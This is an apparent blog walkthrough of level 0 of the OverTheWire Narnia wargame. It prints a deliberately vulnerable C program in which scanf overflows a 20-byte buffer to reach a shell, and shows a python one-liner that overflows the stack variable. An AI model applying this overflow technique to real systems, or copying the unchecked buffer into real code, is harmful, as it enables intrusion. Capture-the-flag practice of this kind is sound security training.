 ```yaml
---
extends: default.liquid
title: Solving Narnia Part 1
date: 2015-04-08T21:03:50Z
---
```


Next up we take on [Narnia](https://overthewire.org/wargames/narnia/). This is a binary exploit centered wargame, so fire up your debuggers and let's smash those stacks. For levels 5, 6, 7, and 8, see [part 2](https://unlogic.co.uk/2015/04/13/solving-narnia-part-2/)

All levels are in `/narnia` and both the binary and the source are provided.

I've not included the passwords here, so you'll have to work through the exercises yourself (or find them elsewhere :))

## Level 00

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
        long val=0x41414141;
        char buf[20];

        printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
        printf("Here is your chance: ");
        scanf("%24s",&buf);

        printf("buf: %s\n",buf);
        printf("val: 0x%08x\n",val);

        if(val==0xdeadbeef)
                system("/bin/sh");
        else {
                printf("WAY OFF!!!!\n");
                exit(1);
        }

        return 0;
}
```

Lines 8 and 9 tell us what we need to do. So knowing how variable allocation on the stack works, we can exploit the setup on lines 5 and 6. `buf` is a fixed size and is allocated _after_ `val`. Therefore it sits above `val` on the stack. As there is no [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) we should be able to write over the end of `buf` and overwrite what is in memory at `val`'s location.

So let's try it

```sourceCode
narnia0@melinda:/narnia$ python -c "print 'C'*50" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCCCCC
val: 0x43434343
WAY OFF!!!!
```
